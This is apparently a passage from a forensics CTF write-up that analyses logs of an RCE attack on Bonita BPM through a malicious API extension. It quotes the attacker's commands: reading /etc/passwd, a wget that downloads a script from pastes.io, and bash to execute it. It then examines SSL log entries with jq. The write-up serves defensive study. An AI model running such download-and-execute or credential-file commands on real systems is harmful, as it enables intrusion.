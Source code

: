     {"contentName": "rce_api_extension.zip", "pageZip": "tmp_2823049839936328099.zip"}



#### Commands

Immediately after the forth POST there's a GET to
`/bonita/API/extensions/rce` with a command and the results come back:

![](/img/image-20240422135404187.png)

The four commands run are:

-   `whoami`
-   `cat /etc/passwd`
-   `wget https://pastes.io/raw/bx5gcr0et8`
-   `bash bx5gcr0et8`

The first is likely just testing for successful RCE. Then the next
downloads a script from `pastes.io` (Task 7) and then runs it.

#### Other Logs

I noted [earlier](#suricata-alert-events-1) that two logs didn't fit the
format of the alert events. I'll filter to those two logs with `jq`:


    oxdf@hacky$ cat meerkat-alerts.json | jq '.[] | select(.event_type != "alert")'
    {
      "_path": "ssl",
      "ts": "2023-01-19T15:39:18.512608Z",
      "uid": "ClRMBz4nXJeb8aRpG5",
      "id": {
        "orig_h": "172.31.6.44",
        "orig_p": 33220,
        "resp_h": "66.29.132.145",
        "resp_p": 443
      },
      "version": "TLSv13",
      "cipher": "TLS_AES_256_GCM_SHA384",
      "curve": "x25519",
      "server_name": "pastes.io",
      "resumed": true,
      "last_alert": null,
      "next_protocol": null,
      "established": true,
      "cert_chain_fuids": null,
      "client_cert_chain_fuids": null,
      "subject": null,
      "issuer": null,
      "client_subject": null,
      "client_issuer": null,
      "validation_status": null,
      "ja3": "4ea056e63b7910cbf543f0c095064dfe",
      "ja3s": "15af977ce25de452b96affa2addb1036"
    }
    {
      "_path": "ssl",
      "ts": "2023-01-19T15:38:53.080341Z",
      "uid": "ClMsQevtaFqIkwki4",
      "id": {
        "orig_h": "172.31.6.44",
        "orig_p": 55330,
        "resp_h": "66.29.132.145",
        "resp_p": 443
      },
      "version": "TLSv13",
      "cipher": "TLS_AES_256_GCM_SHA384",